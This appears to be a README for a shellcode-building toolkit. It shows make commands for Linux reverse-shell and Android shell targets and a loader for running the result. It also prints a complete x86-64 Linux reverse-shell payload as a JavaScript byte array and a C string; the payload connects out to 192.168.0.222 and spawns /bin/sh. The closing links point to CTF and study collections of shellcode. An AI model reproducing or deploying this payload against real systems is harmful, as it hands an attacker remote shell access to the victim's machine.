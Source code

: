 ## Make Shellcode

* build shellcode:

```shell
make shellcode T=linux.reverse64IPv4
or
make shellcode T=android.shell32
```

* build elf for run shellcode:

```shell
make run T=linux
or
make run T=arm
```

* run shellcode:

```
./run ./shellcode
```

* shellcode to array:

```shell
╭─ 
╰─ python ./tools/s2a.py shellcode
var JavaScript_shellcode = new Uint8Array([
    0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x6a, 0x00,
    0x5a, 0x6a, 0x29, 0x58, 0x0f, 0x05, 0x48, 0x97,
    0x6a, 0x00, 0x48, 0xb8, 0x02, 0x00, 0x30, 0x1b,
    0xc0, 0xa8, 0x00, 0xde, 0x50, 0x48, 0x89, 0xe6,
    0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05,
    0x6a, 0x02, 0x5e, 0x6a, 0x21, 0x58, 0x0f, 0x05,
    0x48, 0xff, 0xce, 0x79, 0xf6, 0x31, 0xc0, 0x50,
    0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x57, 0xb0, 0x3b, 0x48, 0x89, 0xe7,
    0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05,
])
char C_shellcode[] =
    "\x6a\x02\x5f\x6a\x01\x5e\x6a\x00"
    "\x5a\x6a\x29\x58\x0f\x05\x48\x97"
    "\x6a\x00\x48\xb8\x02\x00\x30\x1b"
    "\xc0\xa8\x00\xde\x50\x48\x89\xe6"
    "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    "\x6a\x02\x5e\x6a\x21\x58\x0f\x05"
    "\x48\xff\xce\x79\xf6\x31\xc0\x50"
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f"
    "\x73\x68\x57\xb0\x3b\x48\x89\xe7"
    "\x31\xf6\x31\xd2\x0f\x05"

```

## refs

[shellcode for CTF style exploitation](https://github.com/osirislab/Shellcode)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)
